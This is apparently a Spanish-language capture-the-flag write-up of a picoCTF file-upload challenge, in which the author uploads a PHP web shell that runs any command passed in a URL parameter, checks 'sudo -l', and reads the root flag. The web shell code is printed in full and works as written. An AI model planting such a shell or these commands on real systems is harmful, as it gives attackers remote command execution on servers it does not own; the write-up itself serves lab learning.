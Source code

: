 ### Descripcion
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:55913/)!
### Solucion
Como es carga de archivos, lo primero que se piensa es hacer una revershell con php para cargarla
Por suerte tenia una, que me daba hasta interfas de usuario
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```
A partir de ahi empezamos a ejecutar comando, ejecutamos un sudo -l para ver que podemos ejecutar sin necesidad de contraseña, y nos da el siguiente resultado 
```java
Matching Defaults entries for www-data on challenge:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on challenge:  
(ALL) NOPASSWD: ALL

```
Lo que nos muestra que podemos ejecutar todo como root sin necesidad de contraseña, por lo que ejecutamos un cat a la bandera, que ya sabemos que es flag.txt
```bash
sudo cat /root/flag.txt
```

### Tags
#webshell 
